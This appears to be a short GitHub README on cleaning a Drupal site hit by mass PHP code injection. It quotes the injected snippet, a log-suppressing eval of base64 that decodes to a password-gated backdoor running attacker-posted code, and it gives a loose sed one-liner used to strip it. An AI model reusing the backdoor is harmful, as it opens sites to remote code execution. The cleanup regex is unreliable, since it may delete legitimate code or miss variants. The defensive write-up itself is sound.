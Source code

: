 # Remove Drupal code injection

Client's drupal site got hit with a big code injection attack. There were many hundreds of compromised files and no clean copy of the code anywhere.

The injected code looked something like this:

```<?php /*457563643*/ error_reporting(0); @ini_set('error_log',NULL); @ini_set('log_errors',0); @ini_set('display_errors','Off'); @eval(base64_decode('aWYobWQ1KCRfUE9TVFsicGYiXSkgPT09ICI5M2FkMDAzZDdmYzU3YWFlOTM4YmE0ODNhNjVkZGY2ZCIpIHsgZXZhbChiYXNlNjRfZGVjb2RlKCRfUE9TVFsiY29va2llc19w')); /*457563643*/ ?>```

We removed the offending code with

```find . -name "*.php" | xargs sed -i 's/<*.*[[:digit:]]+*.*eval*.*[[:digit:]]+*.*>//g' *.php```

,replaced the core files with the latest Drupal files and put the cleaned up code into version control.

Your mileage may vary. 
